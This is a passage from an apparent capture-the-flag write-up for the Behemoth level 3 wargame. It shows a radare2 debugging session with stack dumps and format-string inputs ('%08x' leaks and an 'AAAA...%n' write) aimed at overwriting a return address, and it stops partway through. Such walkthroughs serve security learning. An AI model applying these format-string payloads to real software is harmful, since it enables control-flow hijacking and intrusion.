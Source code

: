 ```bash
|           0x080484be      8d442418       lea eax, [local_18h]        ; 0x18 ; 24
|           0x080484c2      890424         mov dword [esp], eax
|           0x080484c5      e866feffff     call sym.imp.printf         ; int printf(const char *format)
|           0x080484ca      c704247e8504.  mov dword [esp], str._naaaand_goodbye_again. ; [0x804857e:4]=0x6161610a ; "\naaaand goodbye again."
|           0x080484d1      e87afeffff     call sym.imp.puts           ; int puts(const char *s)
|           0x080484d6      b800000000     mov eax, 0
|           0x080484db      c9             leave
\           0x080484dc      c3             ret
[0xf7fdaa20]> db 080484b2
Cannot place a breakpoint on 0x00000000 unmapped memory. See e? dbg.bpinmaps
[0xf7fdaa20]> db 0x080484b2
[0xf7fdaa20]> dc
Identify yourself: %08x.%08x.%08x.%08x.%08x.%08x.%08x
hit breakpoint at: 80484b2
[0x080484b2]> db 0x080484ca
[0x080484b2]> px 200 @ esp
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0xffffd520  38d5 ffff c800 0000 a075 fcf7 bcd5 ffff  8........u......
0xffffd530  c92f fef7 0000 0000 2530 3878 2e25 3038  ./......%08x.%08
0xffffd540  782e 2530 3878 2e25 3038 782e 2530 3878  x.%08x.%08x.%08x
0xffffd550  2e25 3038 782e 2530 3878 0a00 0100 0000  .%08x.%08x......
0xffffd560  0000 0000 0100 0000 18d9 fff7 afd5 ffff  ................
0xffffd570  aed5 ffff 0100 0000 bf00 0000 3369 eaf7  ............3i..
0xffffd580  aed5 ffff acd6 ffff e000 0000 0000 0000  ................
0xffffd590  00d0 fff7 18d9 fff7 b0d5 ffff 6282 0408  ............b...
0xffffd5a0  0000 0000 44d6 ffff 0070 fcf7 87c2 0000  ....D....p......
0xffffd5b0  ffff ffff 2f00 0000 c83d e2f7 a851 fdf7  ..../....=...Q..
0xffffd5c0  0080 0000 0070 fcf7 0000 0000 2af3 e2f7  .....p......*...
0xffffd5d0  0100 0000 0000 0000 3058 e4f7 2b85 0408  ........0X..+...
0xffffd5e0  0100 0000 a4d6 ffff                      ........
[0x080484b2]> dc
Welcome, 000000c8.f7fc75a0.ffffd5bc.f7fe2fc9.00000000.78383025.3830252e
hit breakpoint at: 80484ca
[0x080484b2]> 
```

I started the program in debug mode and set a breakpoint at 0x080484b2 (this is right after the program take in our input). I pass in seven word reads (%08x) and then print the first 200 bytes of the stack. We see our input starting at address 0xffffd538. I continue the program until just after it prints our input (or in this case, prints out 7 words of the stack). We can see that the first word that's printed out starts at address 0xffffd524. We also see the return address is stored on the data at 0xffffd5cc. As I mentioned above, this return address moved its location on the stack because our input length changed.

Let's modify the input to now include the address we want to change followed by a %n for the 6th specifier.

```bash
[0x080484ca]> ood
Process with PID 29397 started...
File dbg:///behemoth/behemoth3  reopened in read-write mode
= attach 29397 29397
29397
[0xf7fdaa20]> dc
Identify yourself: AAAA%08x.%08x.%08x.%08x.%08x.%n
hit breakpoint at: 80484b2
[0x080484b2]> px 200 @ esp
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0xffffd510  28d5 ffff c800 0000 a075 fcf7 acd5 ffff  (........u......
0xffffd520  c92f fef7 0000 0000 4141 4141 2530 3878  ./......AAAA%08x
0xffffd530  2e25 3038 782e 2530 3878 2e25 3038 782e  .%08x.%08x.%08x.
0xffffd540  2530 3878 2e25 6e0a 0054 fdf7 0100 0000  %08x.%n..T......
```